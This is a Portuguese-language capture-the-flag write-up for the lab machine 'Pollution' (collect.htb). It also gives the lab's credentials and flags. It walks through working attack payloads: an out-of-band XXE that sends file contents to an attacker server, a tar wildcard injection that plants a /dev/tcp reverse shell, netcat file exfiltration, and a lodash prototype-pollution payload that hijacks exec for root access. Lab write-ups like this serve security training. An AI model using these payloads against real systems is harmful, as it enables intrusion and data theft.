


# Pollution Machine

## Introduction

A Pollution Machine tem o foco em web hacking, apresentando algumas vulnerabiliades avançadas e complexas de se explorar, dentre elas: XXE; Prototype Pollution; SSRF

## Info for HTB

### Access

Credentials:

| Username | Password          | Flag                             |
| -------- | ----------------- | -------------------------------- |
| john     | johnpol24142      | None                             |
| victor   | victordevmaster43 | d0efc57262bf6fda17b5c7623d492452 |
| root     | tris0nsec2414     | f81d2db86940999d07761ae9c7d46896 |

### Key Processes

Dentre os processos necessários para o funcionamento da máquina, foi configurado um servidor apache2 para hospedar três vhosts: **`collect.htb; forum.collect.htb; developers-localhost.collect.htb`**

Outro processo necessário para o funcionamento da máquina é o servidor nodejs configurado localmente para hospedar a Pollution API. Ele está sendo executado pelo usuário root, assim permitindo com que os usuários consigam escalar privilégios.

### Automation / Crons

Foi configurado uma crontab no usuário victor para fazer um backup da pollution api na pasta home do usuário john, permitindo com que os usuários consigam fazer escalação lateral usando uma técnica conhecida como wildcard injection.

Foi configurado um supervisor no usuário root para executar um servidor nodejs após a maquina ser inicializadal. Caso o servidor nodejs trave, o supervisor irá inicializa-lo novamente.

## WriteUp

## Enumeration

Executando um scanning de portas no host, vemos que as seguintes portas estão abertas:

```
nmap "192.168.1.6" -Pn -sV -p- --min-rate 500
```

<figure><figcaption></figcaption></figure>

Entrando no servidor web, conseguimos coletar algumas informações:

<figure><figcaption><p>Possível vhost: collect.htb</p></figcaption></figure>

Adicionando vhost:

```
sudo nano /etc/hosts

192.168.1.6    collect.htb 
#insert this line in /etc/hosts | replace 192.168.1.6 with the machine's ip 
```

<figure><figcaption></figcaption></figure>

### Fuzzing

Fazendo fuzzing de subdominios encontramos as seguintes informações:

```
ffuf -u "http://collect.htb" -H "Host: FUZZ.collect.htb" -w ../../SecLists/Discovery/DNS/subdomains-top1million-5000.txt -c -t 50 -fs 27777
```

<figure><figcaption></figcaption></figure>

### Enumerando forum.collect.htb

Adicionando vhost:&#x20;

```
sudo nano /etc/hosts

192.168.1.6    collect.htb    forum.collect.htb 
#insert this line in /etc/hosts | replace 192.168.1.6 with the machine's ip 
```

<figure><figcaption></figcaption></figure>

Entrando no forum.collect.htb:

<figure><figcaption></figcaption></figure>

Clicando em cima de Collect Forum somos redirecionados para essa pagina:

<figure><figcaption></figcaption></figure>

Pesquisando sobre o mybb, vemos que existe uma CVE, porém não temos acesso à pagina de administração.

Lendo as mensagens do forum, encontramos uma mensagem que contem informações sigilosas da Collect:

<figure><figcaption></figcaption></figure>

Vemos que o usuário John diz que se fizermos uma request para a rota **/set/role/admin** conseguimos atualizar nossa role para admin.

### Enumerando collect.htb

Vemos que no cabeçalho da pagina tem um botão para se registrar e um botão de login:

<figure><figcaption></figcaption></figure>

Register:

<figure><figcaption></figcaption></figure>

Login:

<figure><figcaption></figcaption></figure>

Home Page:

<figure><figcaption></figcaption></figure>

## Foothold

Já autenticados, podemos fazer uma request para **/set/role/admin**, assim atualizando nossa role para admin.

Seguindo os passos descritos pelo usuário John, precisamos passar o parametro token no metodo GET.

<figure><figcaption></figcaption></figure>

Fazendo a request, somos redirecionados para a home page.

Lendo atenciosamente o comentario do John, vemos que ele não tem certeza do que está falando.

Fazendo uma request usando o metodo POST, conseguimos atualizar nossa role:

```
curl http://collect.htb/set/role/admin -X POST -b "PHPSESSID=session" -d "token=ddac62a28254561001277727cb397baf" -v
```

<figure><figcaption><p>Vemos que o servidor retornou um redirect para /admin</p></figcaption></figure>

Acessando **/admin**:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Com esse formulário, aparentemente conseguimos registrar usuários em uma API interna:

<figure><figcaption></figcaption></figure>

Ao analisar a request, vemos que ele está enviando um xml:


**Request**

<figure><figcaption></figcaption></figure>

**Response**

<figure><figcaption></figcaption></figure>

Algumas aplicações que utilizam o xml, são vulneráveis à XXE (XML External Entity).

Para testar se essa aplicação está vulnerável, podemos configurar um servidor python e enviar uma payload que faz uma request para nosso servidor.


**Payload**

```
curl -X POST http://collect.htb/api -d 'manage_api=<!DOCTYPE root [<!ENTITY % xpl SYSTEM "http://<your-ip>/">%xpl;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>' -b "PHPSESSID=i6f7tbtgmvon8hko3tvtscifpc"
```

```xml
<!DOCTYPE root [
    <!ENTITY % xpl SYSTEM "http://192.168.1.4/">
    %xpl;
]>
<root>
    <method>POST</method>
    <uri>/auth/register</uri>
    <user>
        <username>test</username>
        <password>test</password>
    </user>
</root>
```

<figure><figcaption></figcaption></figure>

Vemos que uma request foi feita:

```
python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

### Exploitation

Vemos que a aplicação não está retornando o output do XML, ou seja, precisamos criar uma payload para explorarmos XXE Out-of-Band.


**Criando Payload:**

```xml
<!DOCTYPE root [
    <!ENTITY % xpl SYSTEM "http://<you-ip>/xpl.dtd">
    %xpl;
]>
<root>
    <method>POST</method>
    <uri>/auth/register</uri>
    <user>
        <username>test</username>
        <password>test</password>
    </user>
</root>
```

<figure><figcaption></figcaption></figure>

Com essa payload, fazemos uma request para nosso servidor python, carregando o conteúdo contido do **xpl.dtd**


**File: xpl.dtd**

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % payload "<!ENTITY &#37; run SYSTEM 'http://<your-ip>/?leak=%file;'>">
%payload;
%run;
```

<figure><figcaption></figcaption></figure>

Na linha 1, armazenamos o conteúdo do arquivo "**/etc/hostname"** na entidade "**file".** \
****Na linha 2, criamos uma entidade "**payload**" que prepara a entidade "**run**".\
A entidade "**run**" faz uma request para nosso servidor python, enviando um parametro com o conteúdo da entidade "**file**", que corresponde ao conteúdo do arquivo "**/etc/hostname**".\
Na linha 3 e 4 invocamos as entidades.


Crie o arquivo **xpl.dtd** e hospede no seu servidor python:

```
python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

**Enviando a payload:**

```
curl -X POST http://collect.htb/api -d 'manage_api=<!DOCTYPE root [<!ENTITY % xpl SYSTEM "http://<your-ip>/xpl.dtd">%xpl;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>' -b "PHPSESSID=i6f7tbtgmvon8hko3tvtscifpc"
```

<figure><figcaption></figcaption></figure>

**Resposta no servidor python**

<figure><figcaption></figcaption></figure>

Decodificando o base64 contido no parâmetro "**leak**", conseguimos ler o conteúdo do arquivo "**/etc/hostname**":

```
echo 'ZGViaWFuCg==' | base64 -d
```

<figure><figcaption></figcaption></figure>

Ao enumerar os arquivos do sistema, conseguimos obter um novo subdominio lendo o conteúdo do "**/etc/hosts**".\
Para isso precisamos editar nosso **"xpl.dtd**", subistituindo "**/etc/hostname**" por "**/etc/hosts**".

**File xpl.dtd**:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % payload "<!ENTITY &#37; run SYSTEM 'http://<your-ip>/?leak=%file;'>">
%payload;
%run;
```

Hospede o "**xpl.dtd**" em um servidor python, e envie a payload novamente.

**Payload:**

```
curl -X POST http://collect.htb/api -d 'manage_api=<!DOCTYPE root [<!ENTITY % xpl SYSTEM "http://192.168.1.4/xpl.dtd">%xpl;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>' -b "PHPSESSID=bm935pn4sdq6k9f6ccmrf6ve8u"
```

**Resposta no servidor python:**&#x20;

<figure><figcaption></figcaption></figure>

Decodificando o base64 contido no parâmetro "**leak**", conseguimos ler o conteúdo do arquivo "**/etc/hosts**":

```
echo 'MTI3LjAuMC4xCWxvY2FsaG9zdAoxMjcuMC4xLjEJZGViaWFuCWNvbGxlY3QuaHRiCWRldmVsb3BlcnMtbG9jYWxob3N0LmNvbGxlY3QuaHRiCWZvcnVtLmNvbGxlY3QuaHRiCgojIFRoZSBmb2xsb3dpbmcgbGluZXMgYXJlIGRlc2lyYWJsZSBmb3IgSVB2NiBjYXBhYmxlIGhvc3RzCjo6MSAgICAgbG9jYWxob3N0IGlwNi1sb2NhbGhvc3QgaXA2LWxvb3BiYWNrCmZmMDI6OjEgaXA2LWFsbG5vZGVzCmZmMDI6OjIgaXA2LWFsbHJvdXRlcnMK' | base64 -d
```

<figure><figcaption></figcaption></figure>

Vemos que existe o subdominio "**developers-localhost.collect.htb**", adicionando ele no "**/etc/hosts**" do nosso sistema, conseguimos acessa-lo.

```
sudo nano /etc/hosts

192.168.1.6    collect.htb    forum.collect.htb    developers-localhost.collect.htb
#insert this line in /etc/hosts | replace 192.168.1.6 with the machine's ip 
```

<figure><figcaption></figcaption></figure>

Acessando o subdominio "**developers-localhost.collect.htb**":

<figure><figcaption></figcaption></figure>

Vemos que ele está acessivel apenas localmente, então podemos abusar do XXE para fazermos uma requisição para esse subdominio internamente.

Para isso, precisamos editar nosso "**xpl.dtd**", subistituindo "**/etc/hosts**" por "**http://developers-localhost.collect.htb/**"

**File xpl.dtd:**

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=http://developers-localhost.collect.htb/">
<!ENTITY % payload "<!ENTITY &#37; run SYSTEM 'http://<your-ip>/?leak=%file;'>">
%payload;
%run;
```

Hospede o "**xpl.dtd**" em um servidor python, e envie a payload novamente.

**Payload:**

```
curl -X POST http://collect.htb/api -d 'manage_api=<!DOCTYPE root [<!ENTITY % xpl SYSTEM "http://<your-ip>/xpl.dtd">%xpl;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>' -b "PHPSESSID=bm935pn4sdq6k9f6ccmrf6ve8u"
```

**Resposta no servidor python:**

<figure><figcaption></figcaption></figure>

Decodificando o base64 contido no parâmetro "**leak**", conseguimos ler o conteúdo da página hospedada em "**developers-localhost.collect.htb**":

```
echo 'PGh0bWw+CjxwcmU+CmJ1aWxkIHJvdXRlIC9jbGllbnQgaW4gcG9sbHV0aW9uX2FwaQpjcmVhdGUgYSBzd2FnZ2VyLCBkb2N1bWVudGluZyBhbGwgcG9sbHV0aW9uX2FwaSByb3V0ZXMKdXBkYXRlIHRoZSBsaWJzIHVzZWQgaW4gcG9sbHV0aW9uX2FwaQpzZXQgbmV3IHBlcm1pc3Npb25zIGZvciB3ZWJhcHBfdXNlciB1c2VyIGluIG15c3FsCgohISFDT05ORUNUIFRPIFNTSCBUTyBETyBUSEUgREFJTFkgVEFTS1MhISEKam9objpqb2hucG9sMjQxNDIKPC9wcmU+CjwvaHRtbD4K' | base64 -d
```

<figure><figcaption></figcaption></figure>

Vemos que contém credenciais de acesso ao servidor ssh nessa página.

**Conectando ao servidor ssh:**

```
ssh john@collect.htb
john@collect.htb's password: johnpol24142
```

<figure><figcaption></figcaption></figure>

## Lateral Movement

Enumerando os arquivos no sistema, encotramos uma crontab configurada para o usuário victor:

<figure><figcaption></figcaption></figure>

Essa crontab está entrando no diretório "**/home/john/pollution\_api/**" e compactando todos os arquivos usando o "**tar**". Podemos usar uma técnica chamada de wildcard injection para conseguirmos injetar argumentos no "**tar**". Verificando o diretório "**/home/john**" vemos que não existe o diretório "**pollution\_api**", então precisamos cria-lo e configurar permissões para que o usuário victor consiga acessá-lo.

```
mkdir /home/john/pollution_api && chmod +x /home/john && chmod +x /home/john/pollution_api
```

Com o diretório criado, vamos criar os arquivos necessários para injetar argumentos no "**tar**":

```
cd /home/john/pollution_api && echo -e \#\!'/bin/bash\n/bin/bash -c "bash -i >& /dev/tcp/192.168.1.4/80 0>&1"' > shell.sh && echo "" > "--checkpoint-action=exec=sh shell.sh" && echo "" > --checkpoint=1
```

<figure><figcaption></figcaption></figure>

O arquivo "**--checkpoint=1**" e o "**--checkpoint-action=exec=sh shell.sh**" será injetado como argumento no "**tar**", assim fazendo com que o "**tar**" execute o "**shell.sh**", o arquivo "**shell.sh**" contém uma reverse shell, assim conseguimos uma shell no usuário **victor**.

Com os arquivos criados, executamos o nosso netcat para escutar na porta 80 e aguardamos a crontab:

```
nc -lnvp 80
```

<figure><figcaption></figcaption></figure>

**Gerar shell full tty:**

```
export TERM=xterm
script /dev/null -c bash
Cntrl + Z
stty raw -echo && fg
```

<figure><figcaption></figcaption></figure>

```
cat /home/victor/user.txt
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Verificando os serviços internos, vemos que tem um serviço sendo executado e fazendo bind da porta 3000 internamente:

<figure><figcaption></figcaption></figure>

Vemos que o usuário root está executando uma aplicação em nodejs:

<figure><figcaption></figcaption></figure>

Navegando nos diretórios, vemos que existe um backup da pollution\_api em "**/home/victor/pollution\_api**", assim podemos fazer code review na aplicação.

Podemos compactar a pasta usando o "**tar**" e fazer upload para nosso sistema:

```
tar -zcf pollution_api.tgz /home/victor/pollution_api
```

Abrimos o netcat na porta 80 no nosso sistema:

```
nc -lnvp 80 > pollution_api.tgz
```

<figure><figcaption></figcaption></figure>

Na máquina enviamos o arquivo para nosso netcat:

```
nc <your-ip> 80 < pollution_api.tgz
```

<figure><figcaption></figcaption></figure>

Agora basta descompactar e começar o code review.

### Code Review

Analisando o arquivo index.js:

<figure><figcaption></figcaption></figure>

Vemos que ele inicia o express na porta 3000, ou seja, o serviço que está rodando na porta 3000 internamente, é a pollution\_api, que está rodando como usuário root.

Lendo o arquivo documentation.js, vemos todas as rotas da aplicação:

<figure><figcaption></figcaption></figure>

Analisando a rota "**/auth/login**", vemos que ao fazer login, ele nos retorna um JWT com a role e o username:

<figure><figcaption></figcaption></figure>

Analisando a rota "**/admin**", vemos que ela verifica se a "**role**" do seu usuário é "**admin**", caso não seja, ela retorna "**You are not allowed**":

<figure><figcaption></figcaption></figure>

Analisando o arquivo que faz a conexão com a database, conseguimos as credenciais de acesso:

<figure><figcaption></figcaption></figure>

Então podemos registrar um usuário, entrar na database e atualizar a nossa "**role**" para "**admin**".\
Para registrar, precisamos fazer uma requisição para "**/auth/register**" passando "**username**" e "**password**" como parâmetro, lembrando que a aplicação está recebedos os parâmetros em json.

```
curl -X POST -H "Content-type: application/json" http://localhost:3000/auth/register -d '{"username":"tris0n","password":"123"}'
```

<figure><figcaption></figcaption></figure>

```
mysql -u webapp_user -p
Enter password: Str0ngP4ssw0rdB*12@1
```

<figure><figcaption></figcaption></figure>

```
use pollution_api;
update users set role="admin" where username="tris0n";
```

<figure><figcaption></figcaption></figure>

**Fazendo login na pollution\_api:**

```
curl -X POST -H "Content-type: application/json" http://localhost:3000/auth/login -d '{"username":"tris0n","password":"123"}'
```

<figure><figcaption></figcaption></figure>

Com esse token JWT podemos acessar a rota "**/admin**":

```
curl -X GET -H "Content-type: application/json" -H "x-access-token: TOKENJWT" http://localhost:3000/admin
```

<figure><figcaption></figcaption></figure>

Lendo a documentação novamente, vemos as seguintes rotas:

<figure><figcaption></figcaption></figure>

Analisando a rota "**/admin/messages**":

<figure><figcaption></figcaption></figure>

Vemos que as rotas "**/messages**" e "**/messages/send**" estão usando as controllers "**Messages**" e "**Messages\_send**":

<figure><figcaption></figcaption></figure>

Analisando a controller "**Messages\_send**":

<figure><figcaption></figcaption></figure>

Vemos que na linha 3 está sendo importado a biblioteca lodash.\
Na linha 15 está usando a "**lodash**" para fazer o merge do objeto "**message**" com os parâmetros enviados na requisição.\
Na linha 17 a função "**exec**" da biblioteca "**child\_process**" está executando o "**log.sh**"

Verificando a versão da biblioteca "**lodash**" vemos que ela está vulnerável à prototype pollution:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

A função "**merge**" é vulneravel à prototype pollution. Com isso conseguimos poluir o prototype de todos os objetos da aplicação, pois na linha 17 da controller "**Messages\_send**", a função merge está mesclando o input do usuário com um objeto.

<figure><figcaption></figcaption></figure>

Vemos que na linha 17 a função "**exec**" é utilizada, então podemos sobrescrever a shell utilizada pela função:

<figure><figcaption></figcaption></figure>

### Exploiting

Criamos um arquivo para executar uma reverse shell:

```
echo -e \#\!'/bin/bash\n/bin/bash -c "bash -i >& /dev/tcp/<your-ip>/80 0>&1"' > /home/victor/fakeshell && chmod +x /home/victor/fakeshell
```

<figure><figcaption></figcaption></figure>

Executamos o netcat na porta 80:

```
nc -lvp 80
```

<figure><figcaption></figcaption></figure>

Agora podemos sobrescrever o atributo "**shell**" da função "**exec**" para "**/home/victor/fakeshell**" através do prototype pollution:

```
curl -X POST -H "Content-type: application/json" -H "x-access-token: TOKENJWT" http://localhost:3000/admin/messages/send -d '{"text":"pwning","__proto__":{"shell":"/home/victor/fakeshell"}}'
```

<figure><figcaption></figcaption></figure>

Ao enviar a payload, conseguimos shell no usuário root:

```
cat /root/root.txt
```

<figure><figcaption></figcaption></figure>
